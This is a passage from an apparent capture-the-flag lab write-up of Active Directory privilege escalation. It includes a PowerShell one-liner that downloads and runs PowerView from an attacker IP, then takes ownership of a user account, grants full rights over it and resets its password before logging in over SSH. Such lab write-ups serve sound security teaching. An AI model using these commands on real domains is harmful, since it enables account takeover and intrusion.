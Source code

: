 
## `tom` to `claire`

Since `tom` has `WriteOwner` permission to `claire`, change the owner of `claire`'s user account to `tom`, give `tom` `GenericAll` permission to `claire`, and then change `claire`'s password.

```powershell
PS C:\users\nico\Desktop> IEX (New-Object Net.Webclient).DownloadString("http://10.10.14.81/PowerView.ps1"); Set-DomainObjectOwner -Identity claire -OwnerIdentity tom; Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights All; $pass = ConvertTo-SecureString "blahblah123!" -AsPlain -Force; Set-DomainUserPassword -Identity claire -AccountPassword $pass
```

`claire`'s password is now `blahblah123!`. Access the machine with this credential via SSH.

```bash
$ ssh claire@10.129.1.151
Enter password:
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

claire@REEL C:\Users\claire>
```

---

## Privilege Escalation as `claire`

Prior BloodHound enumeration revealed that `claire` has `GenericWrite` access to the `BACKUP_ADMINS` group.

![](images/Pasted%20image%2020211112003134.png)
